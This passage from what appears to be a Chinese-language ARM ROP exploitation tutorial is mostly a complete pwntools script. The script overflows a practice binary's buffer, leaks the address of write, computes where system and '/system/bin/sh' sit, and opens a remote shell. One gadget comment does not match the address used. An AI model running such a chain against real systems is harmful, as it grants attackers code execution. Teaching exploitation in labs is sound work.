 ```
#!bash
#0x0000863a : pop {r1, r2, r4, r5, r6, pc} 
```

另外为了能再一次返回 `vulnerable_function()` ，我们需要构造好执行完write函数后的栈的数据，让程序执行完 `ADD SP, SP` , `#0x84` ; `POP {PC}` 后，PC能再一次指向 `0x000084D8` 。

![](http://img0.tuicool.com/mYr2Mv6.png!web)

最终的explevel9.py如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x00008a12 : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x000088be + 1

#0x0000863a : pop {r1, r2, r4, r5, r6, pc}
gadget2 = 0x0000863a + 1

#.text:000084D8 vulnerable_function
ret_to_vul = 0x000084D8 + 1

#write(r0=1, r1=0x0000AFE8, r2=4)
r0 = 1
r1 = 0x0000AFE8
r2 = 4
r4 = 0
r5 = 0
r6 = 0
write_addr_plt = 0x000083C8

payload =  '\x00'*132 + p32(gadget1) + '\x00'*0xc + p32(r0) + '\x00'*0x4 + p32(gadget2) + p32(r1) + p32(r2) + p32(r4) + p32(r5) + p32(r6) + p32(write_addr_plt) + '\x00' * 0x84 + p32(ret_to_vul)

p.send(payload)

write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
#.text:000253A4                 EXPORT system
#.text:00020280                 EXPORT write

r0 = write_addr + (0x0003F9B4 - 0x00020280)
system_addr = write_addr + (0x000253A4 - 0x00020280) + 1

print 'r0=' + hex(r0)
print 'system_addr=' + hex(system_addr)

payload2 =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(system_addr)

p.send(payload2)

p.interactive() 
```
